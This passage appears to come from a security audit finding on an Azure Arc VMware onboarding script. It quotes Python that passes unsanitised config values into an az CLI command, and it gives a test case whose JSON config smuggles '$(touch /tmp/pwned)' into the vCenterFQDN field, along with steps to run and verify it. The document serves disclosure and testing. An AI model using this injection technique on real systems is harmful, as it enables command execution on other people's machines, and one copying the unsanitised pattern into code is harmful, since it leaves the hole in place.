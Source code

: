   - **Source Code Analysis:**
    - **File:** `/code/src/appliance-onboarding-script/appliance_setup/pkgs/_arcvmware_resources.py`
    - **Function:** `_connect_vcenter`
    - **Vulnerable Code Snippet:**
      ```python
      res, err = az_cli('connectedvmware', 'vcenter', 'connect',
          '--resource-group', f'"{rg}"',
          '--name', f'"{name}"',
          '--location', f'"{location}"',
          '--custom-location', f'"{custom_location_id}"',
          '--fqdn', f'"{fqdn}"',  # Vulnerable: User-controlled value, not sanitized
          '--port', f'"{port}"',  # Vulnerable: User-controlled value, not sanitized
          '--username', f'"{username}"', # Vulnerable: User-controlled value, not sanitized
          '--password="{}"'.format(safe_escape_characters(password)) # Partially mitigated: Password is escaped
      )
      ```
    - The `fqdn`, `port`, and `username` variables are directly sourced from the `config` dictionary, which is populated by parsing a user-provided JSON configuration file. These variables are then directly embedded into the shell command string passed to `az_cli` without any sanitization to prevent command injection.

  - **Security Test Case:**
    1. **Malicious Configuration File Creation:** Create a JSON configuration file named `malicious_config.json` with the following content. This payload attempts to execute the `touch /tmp/pwned` command.
       ```json
       {
         "vCenterFQDN": "$(touch /tmp/pwned)",
         "vCenterPort": "443",
         "vCenterUserName": "testuser",
         "vCenterPassword": "testpassword",
         "resourceGroup": "your-resource-group",
         "nameForVCenterInAzure": "malicious-vcenter",
         "location": "westus2",
         "subscriptionId": "your-subscription-id",
         "customLocationAzureName": "test-custom-location",
         "nameForApplianceInAzure": "test-appliance",
         "isAVS": true,
         "register": true,
         "isStatic": true,
         "staticIpNetworkDetails": {
           "networkForApplianceVM": "test-segment",
           "networkCIDRForApplianceVM": "192.168.10.0/28"
         },
         "privateCloud": "your-private-cloud"
       }
       ```
       **Note:** Replace `"your-resource-group"`, `"your-subscription-id"`, and `"your-private-cloud"` with valid Azure details if you intend to run this test in a real environment.
    2. **Script Execution with Malicious Configuration:** Execute the `run.sh` script, providing the `onboard` operation and the path to the `malicious_config.json` file as arguments:
       ```bash
       ./code/src/appliance-onboarding-script/run.sh onboard malicious_config.json
       ```
    3. **Verification of Command Injection:** After the script execution, check if the file `/tmp/pwned` has been created.
       ```bash
       ls /tmp/pwned
       ```
       - **Successful Injection:** If the `ls /tmp/pwned` command shows that the file `/tmp/pwned` exists, it confirms that the command injection was successful. The `$(touch /tmp/pwned)` part in the `vCenterFQDN` field was executed as part of the `az cli connectedvmware vcenter connect` command.

